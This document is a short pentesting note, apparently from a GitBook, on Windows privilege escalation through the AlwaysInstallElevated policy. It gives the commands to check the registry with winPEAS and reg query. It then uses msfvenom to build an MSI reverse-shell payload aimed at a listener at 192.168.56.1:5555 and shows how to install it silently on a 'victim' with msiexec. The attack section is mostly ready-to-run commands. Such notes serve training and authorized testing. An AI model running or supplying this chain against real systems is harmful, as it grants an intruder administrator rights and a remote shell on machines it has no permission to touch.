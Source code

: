 # AlwaysInstallElevated

MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated \(i.e. admin\) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer If either of these are missing or disabled, the exploit will not work.

Use winPEAS to see if both registry values are set:

```text
winPEASany.exe quiet windowscreds
```

![](../../../../../.gitbook/assets/image%20%28146%29.png)

Alternatively, verify the values manually:

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](../../../../../.gitbook/assets/image%20%28151%29.png)

{% hint style="info" %}
note that both of these registry key values should be set to 1. otherwise we cant use this attack vector.
{% endhint %}

Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

```text
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f msi -o VirtualBox\ VMs/shares/installer.msi
```

send the reverse shell to victim machine and run the installer with msiexec:

```text
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

![](../../../../../.gitbook/assets/image%20%28147%29.png)















